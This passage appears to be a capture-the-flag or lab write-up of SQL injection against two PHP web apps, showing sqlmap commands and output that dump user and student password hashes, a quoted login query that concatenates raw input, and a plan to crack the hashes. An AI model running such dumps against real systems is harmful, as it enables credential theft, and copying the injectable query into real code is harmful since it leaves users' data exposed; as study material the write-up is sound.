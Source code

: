 ```bash
[11:53:10] [INFO] retrieved: text
[11:53:28] [INFO] retrieved: password
[11:53:58] [INFO] retrieved: text
[11:54:15] [INFO] retrieved: avatar
[11:54:32] [INFO] retrieved: text
[11:54:50] [INFO] retrieved: last_login
[11:55:30] [INFO] retrieved: datetime
[11:55:55] [INFO] retrieved: type
[11:56:11] [INFO] retrieved: tinyint(1)
[11:56:51] [INFO] retrieved: date_added
[11:57:24] [INFO] retrieved: datetime

...SNIP

> sqlmap -r admin.req --dbms=mysql -D erms_db -T users -C username,password --dump

...SNIP
[3 entries]
+------------------+----------------------------------+
| username         | password                         |
+------------------+----------------------------------+
| Stev1992         | 184fe92824bea12486ae9a56050228ee |
| UndetectableMark | 48bb86d036bb993dfdcf7fefdc60cc06 |
| admin            | fc8ec7b43523e186a27f46957818391c |
+------------------+----------------------------------+
...SNIP

```

same hash for admin, but different for other users. Let's see if these crack... nope

on further inspection there are student accounts on the School File Management System, let's leak that table

table and column names found from source code to save time dumping them aswell

```php
# login_query.php
$query = mysqli_query($conn, "SELECT * FROM `student` WHERE `stud_no` = '$stud_no' && `password` = '$password'") or die(mysqli_error());
```

```bash
> sqlmap -r admin.req --dbms=mysql -D db_sfms -T student -C stud_no,password --dump

+---------+----------------------------------+
| stud_no | password                         |
+---------+----------------------------------+
| 12345   | 1a40620f9a4ed6cb8d81a1d365559233 |
| 23347   | abb635c915b0cc296e071e8d76e9060c |
| 31234   | a2afa567b1efdb42d8966353337d9024 |
| 43347   | a1428092eb55781de5eb4fd5e2ceb835 |
+---------+----------------------------------+


```
Let's see if we can crack these

